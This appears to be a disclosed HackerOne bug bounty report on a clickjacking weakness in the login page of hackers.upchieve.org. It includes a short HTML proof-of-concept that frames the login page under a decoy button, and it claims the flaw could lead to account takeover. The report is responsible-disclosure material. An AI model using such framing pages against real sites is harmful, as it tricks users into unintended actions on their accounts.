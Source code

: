 # Clickjacking ar https://hackers.upchieve.org/login

## Report Details
- **Report ID**: 1400405
- **URL**: https://hackerone.com/reports/1400405
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-11-15T12:01:30.445Z
- **Disclosed**: 2021-11-19T16:06:50.565Z

## Reporter
- **Username**: maisanisnotyours
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upchieve

## Vulnerability Information
I found clickjacking at login page on https://hackers.upchieve.org that can be exploited if the UI overlay can be performed correctly by the attacker.

```<html>
<head>
<title>Clickjack test page</title>
</head>
<body>
<p>Website is vulnerable to clickjacking!</p>
<iframe src="https://hackers.upchieve.org/login" width="1000" height="550"></iframe>
<div style="height: 30px;width: 130px;left: 53%;bottom: 39%;background: #789;" class="xss"><button>Click me when you finish :)</button></div>
</body>
</body>
</html>```

## Impact

Its login page so if the UI overlay can be performed correctly by the attacker, this can lead to account takeover.

## Attachments
- Clickjacking.html
